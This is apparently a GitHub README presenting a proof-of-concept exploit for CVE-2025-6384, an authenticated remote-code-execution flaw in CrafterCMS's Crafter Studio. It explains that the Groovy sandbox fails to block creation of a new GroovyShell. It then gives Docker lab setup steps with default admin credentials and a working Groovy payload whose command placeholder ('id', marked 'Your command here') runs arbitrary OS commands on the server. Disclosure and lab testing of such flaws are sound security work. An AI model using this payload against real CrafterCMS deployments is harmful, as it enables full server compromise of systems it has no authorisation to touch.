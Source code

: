 # CrafterCMS Authenticated RCE - Groovy Sandbox Bypass (CVE-2025-6384)

A Proof of Concept for an authenticated Remote Code Execution vulnerability in CrafterCMS.

## Vulnerability Summary

An authenticated user with developer privileges can bypass the Groovy script sandbox in Crafter Studio to achieve Remote Code Execution (RCE). The sandbox fails to block the instantiation of a new `GroovyShell`, which can be used to create a new, unrestricted execution environment.

- **Product:** CrafterCMS
- **Component:** Crafter Studio
- **Vulnerability:** Authenticated RCE via Groovy Sandbox Bypass ([CWE-913](https://cwe.mitre.org/data/definitions/913.html))
- **Impact:** Full server compromise

## Lab Setup / Deployment

You can quickly deploy a vulnerable CrafterCMS instance for testing using the official Docker Compose files.

1.  Clone the `docker-compose` repository from CrafterCMS:
    ```bash
    git clone https://github.com/craftercms/docker-compose.git
    ```

2.  Navigate to the authoring environment directory:
    ```bash
    cd docker-compose/authoring
    ```

3.  Start the containers. This will download the necessary images and start the CrafterCMS stack.
    ```bash
    docker-compose up
    ```
    *(Note: `sudo` may be required depending on your Docker installation.)*

4.  Wait for the services to be fully initialized. You can access Crafter Studio at `http://localhost:8080/studio`.
    - **Default Username:** `admin`
    - **Default Password:** `admin`

## Proof of Concept (PoC)

While the sandbox correctly blocks direct execution methods, it allows the following payload, which creates a new, unsandboxed Groovy shell.

```groovy
// File: /scripts/interceptors/pwn.groovy

def shell = new GroovyShell()
def command = "id" // <-- Your command here
def result = shell.evaluate("'''${command}'''.execute().text")

// The output is printed to the server logs
System.err.println("[RCE-PoC] " + result)
```
